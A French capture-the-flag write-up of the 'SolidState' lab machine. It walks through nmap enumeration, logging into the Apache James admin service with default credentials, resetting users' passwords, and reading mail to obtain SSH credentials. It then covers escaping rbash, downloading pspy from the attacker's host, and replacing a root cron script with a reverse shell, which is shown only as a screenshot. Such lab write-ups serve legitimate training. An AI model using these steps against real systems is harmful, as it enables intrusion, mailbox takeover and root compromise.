SolidState repose essentiellement sur l’exploitation du serveur mail **Apache James**. Après énumération, on découvre que l’accès admin au service James est protégé par les identifiants par défaut. Cela permet de manipuler les boîtes mail des utilisateurs et de **récupérer des identifiants SSH** contenus dans leurs messages. La connexion SSH initiale donne un shell restreint, qu’il est possible de contourner. Pour finir, une **escalade root** est possible grâce à un **script Python exécuté par un cron**, permettant l’obtention d’un shell root.

# Énumération 
## Nmap

Le scan TCP avec nmap révèle  6 ports ouverts : SSH (22), SMTP (25), HTTP (80), POP3 (110), NNTP (119), RSIP (4555).
```bash
nmap 10.129.4.144 --min-rate 5000 -p- -vv
--[snip]--
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
25/tcp   open  smtp    syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
110/tcp  open  pop3    syn-ack ttl 63
119/tcp  open  nntp    syn-ack ttl 63
4555/tcp open  rsip    syn-ack ttl 63
```

Je lance ensuite un scan détaillé sur ces ports.
```bash
nmap 10.129.4.144 --min-rate 5000 -p 22,25,80,110,119,4555 -sV -sC -oN tcpScan.txt
--[snip]--
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey:
|   2048 770084f578b9c7d354cf712e0d526d8b (RSA)
|   256 78b83af660190691f553921d3f48ed53 (ECDSA)
|_  256 e445e9ed074d7369435a12709dc4af76 (ED25519)
25/tcp   open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3?
119/tcp  open  nntp?
4555/tcp open  rsip?
```

## HTTP - TCP 80

Le site est statique et ne présente aucune fonctionnalités interessantes.


## RSIP - TCP 4555

Je me connecte ensuite au service **RSIP** avec les identifiants **root:root**.
```bash
nc 10.129.4.144 4555
```

Avec la commande help, je liste les commandes disponibles.

Avec **listusers**, je liste les utilisateurs. Puis avec la commande **setpassword**, je modifie leur mot de passe.


Puis je me connecte au service **POP3** avec **telnet**.
```bash
telnet 10.129.4.144 110
```

Je me connecte en tant que **James**. Je vois que sa boite mail ne contient aucun message.


Il en est de même pour l'utilisateur **mailadmin**.


Par contre **mindy** a deux messages dans sa boite mail.


Je lis alors le premier message.


Le second contient les identifiants SSH de **mindy**.


# Accès initial 
## Connexion SSH en tant que mindy

J'obtiens alors un shell en tant que **mindy** et je récupère le premier flag.
```bash
ssh mindy@10.129.4.144
```

Je vois que je suis dans un shell **rbash** qui est restreint. Je n'ai pas la possibilité d'exécuter certaines commandes basiques Linux.

## Rbash escape

Sur Google, je recherche `rbash escape` et je trouve plein de site qui explique comment le faire. Je trouve ce [GitHub](https://gist.github.com/PSJoshi/04c0e239ac7b486efb3420db4086e290) qui montre une méthode simple.
```bash
ssh mindy@10.129.4.144 -t bash
```


## Énumération 

Dans le répertoire **/opt**, se trouve un fichier python appartenant à root.

Le script ne fait rien de vraiment intéressant si ce n'est supprimer tout le contenu du répertoire **/tmp**. Une chose qui n'échappe pas à ma vigilance est que tout le monde a les pleins droits sur ce fichier.

Je décide alors d'uploader **pspy32** pour lister les processus en cours d'exécution. Je le fais afin de connaitre le contexte d'exécution de ce script.
```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/tmp$ wget 10.10.16.48/pspy32
--2025-12-05 08:16:31--  http://10.10.16.48/pspy32
Connecting to 10.10.16.48:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2940928 (2.8M) [application/octet-stream]
Saving to: ‘pspy32’

pspy32                                 100%[============================================================================>]   2.80M  2.65MB/s    in 1.1s

2025-12-05 08:16:32 (2.65 MB/s) - ‘pspy32’ saved [2940928/2940928]

${debian_chroot:+($debian_chroot)}mindy@solidstate:/tmp$ chmod +x pspy32
${debian_chroot:+($debian_chroot)}mindy@solidstate:/tmp$ ./pspy32
```

Je vois que ce script est exécuter à des intervalles de temps reguliers.


# Escalade de privilèges 
## Cronjob exploit

Je modifie donc le contenu du fichier par un script de reverse shell bash.


## Shell

Je démarre mon listener et quelques secondes plus tard, j'obtiens un shell en tant que root.

